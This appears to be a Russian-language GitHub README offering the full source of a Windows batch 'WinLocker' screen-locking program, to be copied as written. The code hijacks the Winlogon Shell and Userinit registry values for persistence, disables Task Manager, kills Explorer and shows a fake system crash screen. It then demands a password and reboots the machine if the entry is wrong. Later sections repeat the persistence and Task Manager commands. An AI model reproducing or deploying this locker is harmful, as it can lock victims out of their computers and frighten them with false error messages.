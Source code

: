 # bitlokerV2

Полный код улучшенного ВинЛокера(Важно скопировать, а не переписать!):

________________________________________________________________________

@echo off
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /t REG_SZ /d "ПУТЬ К ВИНЛОКЕРУ" /f
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit /t REG_SZ /d "ПУТЬ К ВИНЛОКЕРУ" /f
REG add HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_DWORD /d 1 /f
Taskkill/f /im explorer.exe
Title WINLOCKER(v2)
color 4


echo error
echo 0000000x00000000000)))))error echo sistem 32:0000000x000120)))(
echo Technical Information:

echo *** STOP: 0x1000007e 
echo (0xffffffffc0000005, 
echo 0xfffff80002e55151, 
echo 0xfffff880009a99d8,
echo 0xfffff880009a9230)
echo *** xNtKrnl.exe - Address 
echo 0xfffff80002e55151 base at echo 0xfffff80002e0d000 DateStamp
echo 0x4ce7951a
echo Enter password

:h
set/p x=
if %x%==2022 (echo win start
start explorer
exit
) else (
echo Your sistem was be removed!
shutdown /r
)
goto h

________________________________________________________________________

Код для Блокировки-Разблокировки Диспетчера задач(Важно скопировать, а не переписать!):

REG add HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_DWORD /d 1 /f

0 - разблокировать 
1 - заблокировать
________________________________________________________________________

Код для записи в автозагрузку(Важно скопировать, а не вставить!):

reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /t REG_SZ /d "ПУТЬ К ВИНЛОКЕРУ" /f
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit /t REG_SZ /d "ПУТЬ К ВИНЛОКЕРУ" /f
________________________________________________________________________
Все новые строчки(Важно скопировать, а не вставить!):

reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /t REG_SZ /d "ПУТЬ К ВИНЛОКЕРУ" /f
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit /t REG_SZ /d "ПУТЬ К ВИНЛОКЕРУ" /f
REG add HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_DWORD /d 1 /f
________________________________________________________________________
Путь в редакторе реестра:
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
________________________________________________________________________
Цвета в командной строке:
0 = Черный       8 = Серый
1 = Синий         9 = Светло-синий
2 = Зеленый    A = Светло-зеленый
3 = Голубой      B = Светло-голубой
4 = Красный    C = Светло-красный
5 = Лиловый   D = Светло-лиловый
6 = Желтый     E = Светло-желтый
7 = Белый        F = Ярко-белый
